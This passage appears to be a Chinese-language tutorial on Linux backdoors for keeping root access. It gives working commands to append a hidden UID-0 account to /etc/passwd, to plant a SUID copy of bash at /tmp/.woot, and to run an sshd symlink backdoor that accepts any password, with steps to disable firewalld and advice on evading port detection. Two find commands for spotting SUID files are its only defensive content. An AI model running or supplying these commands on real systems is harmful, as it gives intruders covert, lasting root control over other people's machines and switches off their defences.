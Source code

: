 ```
perl -le 'print crypt("passwd","salt")'     //结果sadtCr0CILzv2
echo "m123:sadtCr0CILzv2:0:0:root:/root:/bin/bash" >> /etc/passwd
```

### suid后门

当一个文件所属主的x标志位s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以root身份执行的。必要条件：

```
SUID权限仅对二进制程序有效。
执行者对于该程序需要具有x的可执行权限
本权限仅在执行该程序的过程中有效
在执行过程中执行者将具有该程序拥有者的权限
```

创建suid权限的文件：

```
cp /bin/bash /tmp/.woot
chmod 4755 /tmp/.woot
ls -al /tmp/.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot
```

使用文件获得root权限

```
/tmp/.woot
/tmp/.woot -p //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shellhttps://blog.csdn.net/fatshaw/article/details/6171035
```

检查:查找具有suid权限的文件即可

```
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null
```

### SSH后门

#### ssh软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测uid 0 即可认证成功，这样就导致了可以使用任意密码登录: 

```
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
												//开启软连接
ssh root@192.168.1.148 -p12345					//ssh软连接
sudo systemctl stop firewalld					//有防火墙关防火墙
sudo systemctl disable firewalld				//确保firewalld在每次系统启动时都处于关闭状态
```

 http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/ 优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。
